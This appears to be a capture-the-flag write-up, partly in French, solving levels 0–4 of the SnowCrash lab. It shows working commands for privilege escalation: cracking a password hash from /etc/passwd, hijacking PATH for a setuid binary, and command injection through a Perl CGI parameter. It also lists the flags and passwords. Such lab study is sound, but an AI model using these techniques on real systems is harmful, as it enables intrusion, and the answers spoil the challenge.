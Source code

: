 # snow-crash

## level 0
level00@SnowCrash:~$ find / -user "flag00" 2> /dev/null 
/usr/sbin/john
/rofs/usr/sbin/john
level00@SnowCrash:~$ cat /usr/sbin/john 
cdiiddwpgswtgt


https://www.dcode.fr/chiffre-cesar
nottoohardhere


level00@SnowCrash:~$ su flag00
Password: nottoohardhere
Don't forget to launch getflag !
flag00@SnowCrash:~$ getflag
Check flag.Here is your token : x24ti5gi3x0ol2eh4esiuxias

## level 1

level01@SnowCrash:~$ cat /etc/passwd


flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash

vim hash.txt
                                                                                                                     
john hash.txt 
Created directory: /home/ju/.john
Using default input encoding: UTF-8
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 256/256 AVX2])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 642 candidates buffered for the current salt, minimum 3072 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst
abcdefg          (flag01)     
1g 0:00:00:00 DONE 2/3 (2025-01-15 17:11) 50.00g/s 3750Kp/s 3750Kc/s 3750KC/s 123456..2nesbitt
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


level01@SnowCrash:~$ su flag01
Password: abcdefg
Don't forget to launch getflag !
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$

## level 2

└─$ scp -P 4242 level02@192.168.1.36:/home/user/level02/level02.pcap .                           


wireshark level02.pcap 

ft_wandr...NDRel.L0L(0d)(000d0a)(01)

7f

ft_wandr...NDRel.L0L(0d)(000d0a)(01)
ft_waNDReL0L(0d)(000d0a)(01) 
ft_waNDReL0L

level02@SnowCrash:~$ su flag02
Password: 
Don't forget to launch getflag !
flag02@SnowCrash:~$ getflag
Check flag.Here is your token : kooda2puivaav1idi4f57q8iq
flag02@SnowCrash:~$ 


## level 3

Une fois l executable decompilé avec ghidra
```c
int main(int argc,char **argv,char **envp)

{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```

("/usr/bin/env echo Exploit me");

on voit un appel systeme sur echo 
on change le path pour executer la commande getflag
whereis getflag
changement du path: echo '/bin/getflag' > '/tmp/echo'
unset PATH
export PATH=/tmp
./level03

flag='qi0maab88jeaj46qoumi7maus'

## level4
level04@SnowCrash:~$ cat level04.pl
```perl
#!/usr/bin/perl
#localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
level04@SnowCrash:~$ curl 'localhost:4747/level04.pl?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

